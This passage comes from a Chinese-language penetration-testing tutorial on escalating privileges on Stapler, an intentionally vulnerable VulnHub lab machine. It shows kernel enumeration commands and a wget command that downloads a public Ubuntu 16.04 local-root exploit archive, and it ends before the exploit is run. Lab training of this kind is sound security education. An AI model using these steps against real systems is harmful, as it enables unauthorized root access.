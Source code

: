 对于这个示例，我们将使用一个名为 Stapler 的易受攻击的操作系统。该镜像可以从[`www.vulnhub.com/entry/stapler-1,150/`](https://www.vulnhub.com/entry/stapler-1,150/)下载并加载到 VirtualBox 中。在前一章中，我们学习了如何进行漏洞评估并获得低级或高级访问权限。作为练习的一部分，读者可以进行渗透测试并在 Stapler OS 上获得 shell。我们将从接收低权限 shell 的地方继续。

## 做好准备

对于这个教程，读者需要在易受攻击的 Stapler OS 上拥有低权限 shell。在这种情况下，我们通过一些信息收集和密码破解成功地获得了一个用户的 SSH 连接。

## 如何做…

1.  我们已经使用用户名`SHayslett`成功登录到 Stapler 机器，如下截图所示：![如何做…](img/image_09_030.jpg)

1.  我们将枚举系统的操作系统内核版本。输入以下命令来检查版本类型和内核详细信息：

```
    uname -a
          cat /etc/lsb-release

    ```

输出结果将如下截图所示：

![如何做…](img/image_09_031.jpg)

1.  在搜索提升权限的漏洞时，发现 Ubuntu 16.04 存在漏洞：![如何做…](img/image_09_032.jpg)

1.  第一次搜索是为了匹配我们的内核版本和 Ubuntu 操作系统版本。让我们继续在我们想要提升权限的机器上下载它。可以使用以下命令进行下载：

```
          wget https://github.com/offensive-security/exploit-database-      bin-sploits/raw/master/sploits/39772.zip
          unzip 39772.zip

    ```

输出结果将如下截图所示：
